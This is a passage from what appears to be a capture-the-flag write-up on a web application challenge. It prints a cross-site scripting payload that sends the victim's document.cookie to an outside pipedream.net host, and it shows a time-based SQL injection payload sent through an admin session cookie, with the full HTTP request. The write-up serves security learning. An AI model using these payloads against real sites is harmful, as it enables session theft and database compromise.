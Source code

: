 ```
Upgrade-Insecure-Requests: 1

hrs=1&reason='%22%3e%3csvg%2fonload%3dfetch%28%60%2f%2fen8bq7uoc2g7wz3.m.pipedream.net%2f%3fcookie%3d%20%60%2bdocument.cookie%29%3e
```
And it works! 
An URL decoded look of my final payload looks like this:

```
'"><svg/onload=fetch(`https://XXX.m.pipedream.net/?data${document.cookie}`)>
```
 ![image](https://user-images.githubusercontent.com/94167587/144216345-4d5b8a2c-d58c-458d-9b91-cfd319e71200.png)

Voila~ Shouldn’t have taken me that long!

**Flag 3** 

Last but not least, flag 3 is about the formidable SQL injection, at least we know that from the hint given. And the fact that it requires Admin rights (via compromise of flag 1) is obvious that the injection point lies within one of the functions in Administrative panel.
 
 
 **Injection Point 1**


**Enumeration**

I come across this SQL injection point at the `admin_session_id` parameter where a time delayed can be introduced with a payload comes from [CVE-2020-8596](https://blog.impenetrable.tech/cve-2020-8596)


`'+(select*from(select(sleep(20)))a)+'`

**Step 1 - Confirming a SQL injection point**



```
GET /admin/adminlogon.php HTTP/1.1

Host: [..snip..]:81

User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:68.0) Gecko/20100101 Firefox/68.0

Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8

Accept-Language: en-US,en;q=0.5

Accept-Encoding: gzip, deflate

Connection: close

Cookie: admin_session_id=3386ac9b6416734e64d51b7cf2946eb440579046 '%2b(select*from(select(sleep(20000)))a)%2b'+; session_id=903da9688d0a0d2a8d04f36da0af44a1

Upgrade-Insecure-Requests: 1


```
It took forever to load since I have put `sleep(20000)` here, now if I run it again by substituting 20000 to 2 - it acts normally.
